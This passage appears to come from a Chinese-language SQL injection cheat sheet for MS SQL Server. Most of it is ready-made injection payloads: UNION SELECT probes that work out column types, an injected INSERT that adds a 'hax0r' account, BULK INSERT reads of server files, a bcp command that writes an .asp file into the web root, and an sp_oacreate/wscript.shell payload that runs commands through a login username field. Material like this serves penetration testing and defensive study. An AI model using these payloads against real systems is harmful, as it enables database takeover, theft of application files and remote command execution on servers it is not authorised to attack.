     没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。
    
*   `11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-`
    
    没报错 – 第一个字段是`integer`类型。
    
*   `11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --`
    
    报错 – 第二个字段不是`integer`类型
    
*   `11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 –-`
    
    没报错 – 第二个字段是`string`类型。
    
*   `11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 –-`
    
    报错 – 第三个字段不是`integer`
    
*   ……
    
    `Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.`
    

**你在遇到union错误之前会先遇到convert()错误**，所以先使用convert()再用union

### 简单的注入(MSO+)

`'; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*`

### 有用的函数、信息收集、内置程序、大量注入笔记

#### `@@version`(MS)

数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

`INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)`

#### 文件插入(Bulk Insert)(S)

把文件内容插入到表中。如果你不知道应用目录你可以去**读取IIS metabase file**(_仅IIS 6_)(_%systemroot%\system32\inetsrv\MetaBase.xml_)然后在里面找到应用目录。

1.  新建一个表foo(`line varchar(8000)`)
2.  `BULK INSERT foo FROM 'c:\inetpub\wwwroot\login.asp'`
3.  DROP了临时表，重复另一个文件

#### BCP(S)

写入文件。这个功能需要登录`bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar`

#### SQL Server的VBS/WSH(S)

由于ActiveX的支持，你能在SQL Server中使用VBS/WSH

`declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe'`

> Username:`'; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' --`
